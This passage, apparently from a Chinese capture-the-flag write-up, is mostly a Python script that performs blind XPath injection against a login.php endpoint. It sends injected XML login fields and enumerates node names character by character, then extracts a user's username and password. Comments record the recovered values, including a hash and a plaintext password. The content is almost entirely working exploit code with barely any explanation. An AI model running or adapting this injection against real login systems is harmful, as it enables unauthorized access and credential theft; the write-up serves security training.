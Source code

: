 ```
    data='''
<username>{}</username><password>{}</password><token>{}</token>
'''.format(username,password,token())

    req=sess.post(url+'login.php',data=data,headers = {'Content-Type': 'application/xml'})
    print(req.text,req.status_code)
    return req


# root
payload="' or  substring(name(/*[position()=1]),{},1)='{}'  or '1' = '1"
ro='root'

payload="' or substring(name(/root/*[position()=1]),{},1)='{}'  or '1' = '1"
ro='accounts'

payload="' or substring(name(/root/accounts/*[position()=1]),{},1)='{}'  or '1' = '1"
ro='user'

payload="' or substring(name(/root/accounts/user/*[position()=2]),{},1)='{}'  or '1' = '1"
# id username password
ro=''


payload="1' or substring(/root/accounts/user[id=2]/username,{},1)='{}' or '1'='1"
# guest adm1n
ro=''

payload="1' or substring(/root/accounts/user[id=2]/password,{},1)='{}' or '1'='1"
#cf7414b5bdb2e65ee43083f4ddbc4d9f gtfly123
ro=''

import string
for i in range(1,100):
    for j in string.digits+string.ascii_letters+'*':
        if j=='*':
            print('***************false')
            break
        tmp=payload.format(i,j)

        req=login(tmp,'ad')
        if '非法操作' in req.text:
            ro+=j
            print(ro)
            break


```

注入得到：
